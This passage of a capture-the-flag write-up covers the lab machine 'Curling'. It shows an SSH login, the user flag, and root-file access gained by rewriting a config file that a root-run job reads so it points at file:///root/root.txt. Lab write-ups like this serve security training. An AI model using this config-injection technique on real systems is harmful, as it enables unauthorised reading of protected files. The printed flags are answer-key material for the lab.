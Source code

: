 We can use this for ssh connection.<br>
user.txt is in the home directory.
{% highlight shell %}
root@kali:~# ssh floris@10.10.10.150

~~~

floris@curling:~$ ls
admin-area  password_backup  user.txt
floris@curling:~$ cat user.txt
65dd1df0713b40d88ead98cf11b8530b
{% endhighlight %}

### 3. Getting Root

Getting root.txt is straitforward.<br>
There is a directory "admin-area" which has some files.
{% highlight shell %}
floris@curling:~/admin-area$ ls -la
total 16
drwxr-x--- 2 root   floris 4096 May 22  2018 .
drwxr-xr-x 6 floris floris 4096 May 22  2018 ..
-rw-rw---- 1 root   floris   25 Mar 24 15:11 input
-rw-rw---- 1 root   floris   92 Mar 24 15:11 report

floris@curling:~/admin-area$ cat input
url = "http://127.0.0.1"

floris@curling:~/admin-area$ cat report
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection refused (111)
{% endhighlight %}

By editing the file "~/admin-area/input", we can achieve the content of root.txt
{% highlight shell %}
floris@curling:~/admin-area$ echo 'url = "file:///root/root.txt"' > input

{% endhighlight %}

Content of root.txt:
{% highlight shell %}
floris@curling:~/admin-area$ cat report 
82c198ab6fc5365fdc6da2ee5c26064a
{% endhighlight %}
